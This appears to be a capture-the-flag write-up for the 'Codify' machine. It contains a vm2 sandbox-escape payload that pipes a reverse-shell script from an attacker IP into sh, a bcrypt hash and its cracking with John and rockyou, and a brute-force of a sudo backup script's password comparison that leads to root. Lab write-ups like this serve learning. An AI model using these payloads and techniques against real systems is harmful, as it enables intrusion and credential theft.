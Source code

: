 # CODIFY

On the web server we can find a code editor in /about we can see that this code editor is using wm2 library 
after a quick google search we see that we can bypass it with this 
```
https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
```
we have code execution here

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('curl -L http://10.10.16.4:8889/reverse.sh | sh');
}
`

console.log(vm.run(code));
``` 

in /var/ww/contact we found a tickets.db
download it and run it against sqlite3 we found 
```
INSERT INTO users VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
```

run it by john 
```
john hash --wordlist=~/Downloads/rockyou.txt
```

we found password spongebob1
we can now ssh to joshua

```
joshua@codify:~$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

so we can play with /opt/scripts/mysql-backup.sh
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"

we we make (steal ok :D) a script to automate this by bruteforce and we have the root password 
